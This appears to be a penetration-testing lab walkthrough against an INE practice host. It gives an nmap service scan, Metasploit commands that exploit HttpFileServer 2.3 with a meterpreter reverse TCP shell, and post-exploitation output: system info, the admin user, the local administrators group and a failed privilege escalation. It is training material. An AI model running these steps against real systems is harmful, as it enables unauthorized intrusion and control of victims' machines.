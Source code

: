 `nmap -sV -Pn demo.ine.local -p80,135,139,445,3389`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-09 15:41 IST
Nmap scan report for demo.ine.local (10.4.16.166)
Host is up (0.0094s latency).

PORT     STATE SERVICE            VERSION
80/tcp   open  http               HttpFileServer httpd 2.3
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server?
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.20 seconds
```

`msfconsole`, `search hfs`, `unset PAYLOAD`, `set windows/x64/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `exploit`.

`sysinfo`:
```
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: VICTIM\admin
```

`shell`, `net localgroup "administrators"`:
```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.
```

`getsystem`:
```
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)`
```
